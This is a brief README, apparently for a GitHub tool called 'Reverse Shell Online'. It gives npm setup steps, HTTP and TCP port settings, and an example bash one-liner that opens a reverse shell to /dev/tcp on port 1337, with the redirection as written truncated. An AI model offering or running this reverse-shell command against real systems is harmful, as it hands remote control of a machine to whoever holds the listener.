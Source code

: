 # Reverse Shell Online

Install dependendies: ```npm i```
Start project with ```npm start```

ENV Vars:
PORT_HTTP=3000
PORT_TCP=1337

Access HTTP server: ```http://localhost:3000```

Example command to spawn a shell:

```sh -i >& /dev/tcp/127.0.0.1/1337 0>&```